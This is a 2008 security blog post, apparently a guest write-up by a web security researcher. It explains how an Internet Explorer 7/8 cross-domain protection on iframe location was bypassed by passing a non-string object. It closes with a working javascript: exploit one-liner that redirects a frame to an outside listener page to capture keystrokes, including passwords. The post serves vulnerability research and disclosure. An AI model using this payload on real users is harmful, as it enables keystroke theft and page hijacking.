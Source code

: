 ```yaml
---
title: Ghost Busters
author: petko-d-petkov
guest: eduardo-vela
date: Thu, 15 May 2008 16:26:48 GMT
template: post.jade
---
```


> A special guest blogger for this month is Eduardo Vela, also known as sirdarckcat, a security researcher from Mexico. Eduardo has been on the field for a couple of years, mainly focusing on web-app based vulnerabilities, privilege escalation, and IDS/filter evasion. Today, he is a student of computer sciences, does some research on his free time, and works for an important website as a security engineer. These are his words:

There a few conferences that are privately held (invite-only) and their level is commonly very high. One of them is Microsoft's BlueHat conference. BlueHat is an "internal Microsoft event", but they invite a lot of security researchers from around the world. A couple of friends presented in there, and well, apparently it was really fun. Anyway, there was a specific talk that caught our attention, more specifically Manuel Caballero's "A resident in my domain". The description of his talk was really intriguing:

> Do you believe in ghosts? Imagine an invisible script that silently follows you while you surf, even after changing the URL 1,000 times and you are feeling completely safe. Now imagine that the ghost is able to see everything you do, including what you are surfing and what you are typing (passwords included), and even guess your next move.
> No downloading required, no user confirmation, no ActiveX. In other words: no strings attached. We will examine the power of a resident script and the power of a global cross-domain. Also, we will go through the steps of how to find cross-domains and resident scripts.

Apparently, Caballero found a way of capturing keystrokes and window's location. This means that he "at least" has access to modify `document.onkeydown`, and read `window.location`, but if he could modify `document.onkeydown`, that would mean he has access to execute arbitrary code on other's domains context, so that's not it.. because if that was the case, he wouldn't be able to just capture keystrokes, but to UXSS (Universal XSS) the browser.

Anyway, the two things he claims to be able to manipulate can also be manipulated from an off-domain `iframe`. So if there's some way of changing the location of an `iframe`, to any `iframe` we want, then we would be able to capture keystrokes on our own window. So, we now need a way of changing the location of an `iframe`, but first we need to get a reference to the window where the `iframe`s stay, without loosing the script run-time execution. So there are 2 main ways of getting a reference to a window:

```javascript
x=open().window
x=window.opener
```

Both require the user to open a new window and they work exactly the same way. So if you manage to make the user open a new window, then it doesn't matter where the user is navigating to, (if both windows remains open, anyway if the users close them, you can reopen&blur) you have them. So how do we do that? We need to get a reference to the `iframe`s. The ways of doing so are:

```javascript
document.getElementsByTagName("iframe") {doesnt work on cross-domain calls}
window.frames[] {works on cross-domain calls}
```

Now we just need to modify the location. This is trivial, just changing `window.opener.frames[0].location="new location"` shold work. On a recent versions of IE7 and IE8 this method doesn't work. When you try this, the browser will open a new window and by doing so, not modifying the location of the `iframe`.

After doing some tests, the location DOES gets changed when the setted location is not a string. We have hte following options:

```javascript
window.opener.frames[0].location=123;
window.opener.frames[0].location=window;
window.opener.frames[0].location=location;
```

Works fine! But why? Well, apparently IE7&8 have a protection against setting locations by off-domain scripts, and this protection is.. "if the setted location is a string, throw an Error". Not good! We have a lot of ways of making a `String` to look like an `Object`. For example.

```javascript
new String("some-string");
{toString:function(){return "some-string";}}
new function(){this.toString=function(){return "some-string";}}
```

This way, we bypass IE's protection and set our desired location without any problems. And the final exploit goes like this:

```javascript
javascript:x=open('http://hackademix.net/');setInterval(function(){try{x.frames[0].location={toString:function(){return 'http://www.sirdarckcat.net/caballero-listener.html';}}}catch(e){}},5000);void(1);
```

What caballero-listener does is just focusing itself, so it can catches `onkeydown` events.. there are a lot of ways of making the same thing in more stealth mode.
